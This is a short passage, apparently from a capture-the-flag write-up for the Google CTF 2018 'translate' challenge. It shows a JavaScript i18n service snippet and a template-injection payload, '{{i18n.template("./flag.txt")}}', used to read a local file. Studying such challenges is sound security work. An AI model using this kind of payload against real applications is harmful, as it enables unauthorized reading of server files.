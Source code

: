 ```javascript
  forTemplate(template) {
    return this.translate_(this.translations, template);
  }  

  ...

    app.service('i18n', function() {
      return {
        template: (t) => myI18n.forTemplate(t),
        word: (w) => myI18n.forSingleWord(w),
      }
    });  

  ...
```

Finally I could leak flag with `i18n.template`

`{% raw %}{{i18n.template("./flag.txt")}}{% endraw %}`  
![flag.png](/assets/googlectf-2018-quals-2018-translate/flag.png){:width="60%"}
